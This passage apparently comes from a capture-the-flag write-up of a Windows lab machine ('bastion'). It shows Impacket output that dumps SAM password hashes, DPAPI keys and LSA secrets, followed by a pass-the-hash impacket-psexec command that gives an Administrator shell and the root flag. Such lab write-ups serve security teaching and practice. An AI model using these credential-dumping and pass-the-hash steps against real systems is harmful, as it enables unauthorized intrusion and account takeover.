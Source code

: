 ```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe8f8eb3dae34cbd9d3d9eea96a2cdf99
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:75f93c2abb1e018670a0c8124dda15e7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
mark:1008:aad3b435b51404eeaad3b435b51404ee:c429b91ec17f2c752917632bf06af883:::
taylor:1009:aad3b435b51404eeaad3b435b51404ee:2e9f7a4fe52270ad2db1732c6cdb4428:::
john:1010:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x6770b89a8dedc96069aa66160a997824ff6910ab
dpapi_userkey:0x5d63f1f7715d08bf3b727e79f23e2d330fab3db2
[*] NL$KM 
 0000   2E 74 ED 55 62 CB 0C 23  83 3D C6 56 51 CE B2 93   .t.Ub..#.=.VQ...
 0010   63 BC 5F C9 59 8B 25 DB  1F FC F9 A2 26 50 31 60   c._.Y.%.....&P1`
 0020   C4 67 C4 47 3B EA D7 01  86 9B 67 31 70 F9 30 A1   .g.G;.....g1p.0.
 0030   49 99 F2 29 6D 19 85 D4  F2 01 BE C0 65 26 19 20   I..)m.......e&. 
NL$KM:2e74ed5562cb0c23833dc65651ceb29363bc5fc9598b25db1ffcf9a226503160c467c4473bead701869b673170f930a14999f2296d1985d4f201bec065261920
[*] Cleaning up... 
[*] Stopping service RemoteRegistry
```

## Administrator shell

Now I switched to Administrator using `impacket-psexec`

```
impacket-psexec bastion/administrator@10.8.0.3 -hashes "aad3b435b51404eeaad3b435b51404ee:75f93c2abb1e018670a0c8124dda15e7"
```

```
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on 10.8.0.3.....
[*] Found writable share ADMIN$
[*] Uploading file GRYvxaly.exe
[*] Opening SVCManager on 10.8.0.3.....
[*] Creating service Umrf on 10.8.0.3.....
[*] Starting service Umrf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
```

We got our root flag
